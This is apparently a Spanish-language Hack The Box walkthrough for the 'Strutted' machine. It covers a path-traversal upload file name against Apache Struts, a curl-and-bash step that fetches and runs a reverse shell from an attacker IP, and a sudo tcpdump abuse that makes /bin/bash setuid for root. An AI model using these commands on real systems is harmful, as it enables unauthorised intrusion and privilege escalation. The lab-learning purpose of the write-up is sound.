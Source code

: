 ```yaml
---
title: "Strutted (HTB)"
description: "Walkthrough con enumeración, explotación y privesc."
pubDate: "2025-08-20"   # YYYY-MM-DD (en comillas)
tags: ["htb", "linux", "walkthrough"]
draft: false
---
```

**IP:** 10.10.11.59

## 🌐 Stack Tecnológico
- Apache Struts
- Tomcat
- Java (OpenJDK)
- Docker

## 🦈 Credenciales encontradas
- admin : 
- james :  (SSH)

## 🧪Vector de Explotación
- Modificación de campo `top.uploadFileName`:
  ```
  ../../test.asp
  ```

## 🔁 Reverse Shell
```bash
curl 10.10.15.53 -o /tmp/reverse
bash /tmp/reverse
```

## 🧭 Escalada de Privilegios
```bash
COMMAND='chmod 4777 /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
bash -p
```
## 👑 Root Access
```bash
  whoami
# root
  ```